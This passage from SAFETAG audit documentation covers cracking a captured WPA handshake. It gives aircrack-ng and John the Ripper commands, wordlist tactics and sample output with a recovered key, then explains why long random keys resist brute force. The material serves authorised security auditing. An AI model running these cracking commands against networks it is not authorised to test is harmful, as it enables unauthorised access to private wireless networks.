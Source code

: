   This handshake does not contain the WPA key itself, but once the the complete
  handshake process has been seen, the auditor (or a potential attacker) can
  leave the vicinity and run various password cracking tools to try and discover
  the password. While a complete password cracking tutorial is out of scope for
  SAFETAG documentation, below are three strategies:


  **Step 4:** The auditor attempts to discover the WPA password.


  A good wordlist with a few tweaks tends to break an unforunate number of
  passwords.  Using a collection of all english words, all words from the
  language of the organization being audited, plus a combination of all these
  words, plus relevant keywords, addresses, and years tends to crack most wifi
  passwords.


  ```bash
      $ aircrack-ng -w pwdpairs.txt -b 1A:2B:3C:4D:5E:6F sampleorg_airodump*.cap
  ```


  For WPA captures, John can either feed in to an aircrack process or attack a
  capture directly.  For captures, you first have to convert the .cap file (from
  wireshark, wifite, airodump, etc.) to a format that John likes.  The Jumbo
  version we use has conversion tools for this available:


  ```bash
    $wpapcap2john wpa.cap > crackme
    $./john -w:password.lst -fo=wpapsk-cuda crackme
  ```


  **Results**


  Successful password cracking via piping these into aircrack-ng:


  ```
   Opening sampleorg_airodump-01.cap
   Reading packets, please wait...
                                   Aircrack-ng 1.1
                      [00:00:05] 9123 keys tested (1876.54 k/s)
                             KEY FOUND! [ sample2012 ]

        Master Key     : 2A 7C B1 92 C4 61 A9 F6 7F 98 6B C1 AB 53 7A 0F
                         3C AF D7 9A 0C BD F0 4B A2 44 EE 5B 13 94 12 12

        Transient Key  : A9 C8 AD 47 F9 71 2A C6 55 F8 F0 73 FB 9A E6 1D
                         23 D9 31 25 5D B1 CF EA 99 2C B3 D7 E5 7F 91 2D
                         56 25 D5 9A 1F AD C5 02 E3 2C C9 ED 74 55 BA 94
                         D6 F5 0A D1 3B FB 39 40 19 C9 BA 65 2E 49 3D 14

        EAPOL HMAC     : F1 DF 09 C4 5A 96 0B AD 83 DD F9 07 4E FA 19 74
  ```


  The fourth line of the above output provides some useful information about the
  effectiveness of a strong WPA key. That rate of approximately 2000 keys per
  second means that a full-on, brute-force attack against a similar-length key
  that was truly random (and therefore immune to dictionary-based attacks) would
  take about 70^9 or 20 trillion seconds, which is well over 600,000 years. Or,
  for those who favor length and simplicity over brevity and complexity, a key
  containing four words chosen from among the 10,000 most common English
  dictionary words would still take approximately 150,000 years to crack (using
  this method on an average laptop).

